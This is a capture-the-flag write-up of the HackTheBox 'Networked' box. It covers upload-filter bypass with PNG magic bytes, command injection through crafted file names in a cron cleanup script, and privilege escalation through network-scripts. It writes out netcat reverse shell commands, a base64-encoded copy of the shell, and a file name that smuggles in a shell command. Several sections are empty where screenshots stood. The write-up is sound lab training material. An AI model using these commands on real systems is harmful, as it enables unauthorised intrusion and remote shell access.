










# Networked -- HackTheBox (write-up)

**Difficulty:** Easy
**Box:** Networked (HackTheBox)
**Author:** dkrxhn
**Date:** 2025-07-01

---

## TL;DR

### Uploaded a PHP shell disguised as PNG via magic bytes. Pivoted to guly user via command injection in a cron cleanup script. Privesc through network-scripts command injection with sudo.
---

## Target info

- Host: `10.10.14.172` (attacker)
- Services discovered: `22/tcp (ssh)`, `80/tcp (http)`

---

## Enumeration





## Exploitation -- initial shell

Converted `shell.php` to PNG by prepending magic bytes, then renamed extension in Burp:

```bash
printf '\x89PNG\r\n\x1A\n' | cat - shell.php > shell.png
```

Changed filename to `shell.php.png` in Burp:



Triggered the shell:

```bash
nc -c sh 10.10.14.172 4444
```



## Lateral movement -- apache to guly



Found a cleanup script that runs every 3 minutes:



The vulnerable line:

```php
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
```

`$value` is a filename from the uploads directory -- no sanitization means command injection via crafted filenames.

Base64-encoded the working reverse shell:

```bash
echo nc -c sh 10.10.14.172 443 | base64 -w0
# bmMgLWMgc2ggMTAuMTAuMTQuMTcyIDQ0Mwo=
```

Created the injection file:

```bash
touch '/var/www/html/uploads/a; echo bmMgLWMgc2ggMTAuMTAuMTQuMTcyIDQ0Mwo= | base64 -d | sh; b'
```

After ~3 minutes:



## Privilege escalation

```bash
sudo -l
```





The script writes user input to `/etc/sysconfig/network-scripts/ifcfg-guly` then calls `/sbin/ifup guly0`. The regex allows spaces, so input separated by spaces becomes separate lines in the config. When the interface is brought up, the config is sourced, executing any injected commands.



- Anything after a space in a network-scripts config value gets executed when the interface is brought up.

---

## Lessons & takeaways

- PHP shells can bypass upload filters by prepending PNG magic bytes
- Cron scripts that use filenames in shell commands are injection targets
- Network-scripts in CentOS/RHEL source config files -- spaces in values lead to command execution
---
